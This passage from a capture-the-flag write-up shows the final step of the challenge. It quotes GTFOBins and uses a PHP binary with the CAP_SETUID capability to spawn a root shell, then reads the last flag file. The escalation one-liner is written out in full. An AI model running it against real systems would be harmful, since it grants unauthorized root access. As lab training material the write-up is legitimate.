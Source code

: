 ```
So let's investigate in [GTFOBins](https://gtfobins.github.io/gtfobins/php/#capabilities) :

```
Capabilities
If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

cp $(which php) .
sudo setcap cap_setuid+ep php

CMD="/bin/sh"
./php -r "posix_setuid(0); system('$CMD');"
```

The sudo command is not recognized but let's try the second part :

```
CMD="/bin/sh"
/usr/bin/php7.3 -r "posix_setuid(0); system('$CMD');"
```

And here I'm logged as root, and finding the last flag.

```
whoami
root
cat /root/FLAG5.txt
FLAG5{GGWP-C-ETAIT-PAS-SI-DURE-J-ESPERE-^^}

                                                          .;;,
                                     .,.               .,;;;;;,
                                    ;;;;;;;,,        ,;;%%%%%;;
                                     `;;;%%%%;;,.  ,;;%%;;%%%;;
                                       `;%%;;%%%;;,;;%%%%%%%;;'
                                         `;;%%;;%:,;%%%%%;;%%;;,
                                            `;;%%%,;%%%%%%%%%;;;
                                               `;:%%%%%%;;%%;;;'
           ..,,,.                                 .:::::::.
        .;;;;;;;;;;,.                                  s.
        `;;;;;;;;;;;;;,                               ,SSSs.
          `:.:.:.:.:.:.:.                            ,SSSSSSs.
           .;;;;;;;;;;;;;::,                        ,SSSSSSSSS,
          ;;;;;;;;;;;;;;;;:::%,                    ,SS%;SSSSSSsS
         ;;;;;;,:,:::::::;::::%%,                  SS%;SSSSSSsSS
         ;;;;;,::a@@@@@@a::%%%%%%%,.   ...         SS%;SSSSSSSS'
         `::::::@@@@@@@@@@@a;%%%%%%%%%'  #;        `SS%;SSSSS'
  .,sSSSSs;%%,::@@@@@@;;' #`@@a;%%%%%'   ,'          `S%;SS'
sSSSSSSSSSs;%%%,:@@@@a;;   .@@@a;%%sSSSS'           .%%%;SS,
`SSSSSSSSSSSs;%%%,:@@@a;;;;@@@;%%sSSSS'        ..,,%%%;SSSSSSs.
  `SSSSSSSSSSSSs;%%,%%%%%%%%%%%SSSS'     ..,,%;sSSS;%;SSSSSSSSs.
     `SSSSSSSSSSS%;%;sSSSS;""""   ..,,%sSSSS;;SSSS%%%;SSSSSSSSSS.
         """""" %%;SSSSSS;;%..,,sSSS;%SSSSS;%;%%%;%%%%;SSSSSS;SSS.
                `;SSSSS;;%%%%%;SSSS;%%;%;%;sSSS;%%%%%%%;SSSSSS;SSS
                 ;SSS;;%%%%%%%%;%;%sSSSS%;SSS;%%%%%%%%%;SSSSSS;SSS
                 `S;;%%%%%%%%%%%%%SSSSS;%%%;%%%%%%%%%%%;SSSSSS;SSS
                  ;SS;%%%%%%%%%%%%;%;%;%%;%%%%%%%%%%%%;SSSSSS;SSS'
                  SS;%%%%%%%%%%%%%%%%%%%;%%%%%%%%%%%;SSSSSS;SSS'
                  SS;%%%%%%%%%%%%%%%%%%;%%%%%%%%%%%;SSSSS;SSS'
                  SS;%%%%%%%%%%%%%;sSSs;%%%%%%%%;SSSSSS;SSSS
                  `SS;%%%%%%%%%%%%%%;SS;%%%%%%;SSSSSS;SSSS'
                   `S;%%%%%%%%%%%%%%%;S;%%%%%;SSSS;SSSSS%
                    `S;%;%%%%%%%%%%%'   `%%%%;SSS;SSSSSS%.
                  ,S;%%%%%%%%%%;'      `%%%%%;S   `SSSSs%,.
                  ,%%%%%%%%%%;%;'         `%;%%%;     `SSSs;%%,.